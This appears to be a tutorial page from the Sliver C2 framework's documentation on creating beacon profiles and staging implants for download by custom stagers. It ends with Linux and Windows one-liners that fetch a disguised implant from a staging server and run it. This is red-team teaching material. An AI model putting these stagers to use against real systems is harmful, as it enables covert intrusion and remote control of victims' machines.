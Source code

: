 # This course is intended for the 1.6 version of Sliver, which is not yet published

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise, we will create a new beacon profile and prepare to stage it.

```asciinema
{"src": "/asciinema/create_profile.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

If you look at the generated implant, you'll notice the `ID` field has been populated. When downloading your payload from the staging server your URL needs to be in the form of:
```
https://sliver-ip/whatever.stager_file_ext?x=yourID
```

There is a lot of flexibility in the form of this URL, the conditions for successful staging are:
* The file extension needs to match the c2 profile's stager_file_ext
* There has to be a one character http url parameter
* The digits found in the ID need to match an implant ID, if your implant ID is 1234, abcd1234, 12beu34 are all valid values

To expose a payload, you need to use the `implants stage` command and specifically select the implant to leave accessible.

```asciinema
{"src": "/asciinema/stage_implant.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

At this point we can try retrieving our implant. The ID is 19778.

```asciinema
{"src": "/asciinema/implant_curl.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Sliver staging also supports encoding or encrypting our payloads before exposing them externally using the `profile stage` command, the implant configuration remains the same but you are now able to stage different versions of it simultaneously.

```asciinema
{"src": "/asciinema/stage_compress_encrypt.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

A simple stager could look like this, for example in Linux:

```
curl http://localhost/nothingtoseehere.yml?c=1234 --output nothingtoseehere && chmod u+x nothingtoseehere &&nohup ./nothingtoseehere
```

Or on Windows:
```
curl http://172.20.10.3/test.woff?a=29178 -o t.exe && .\t.exe
```
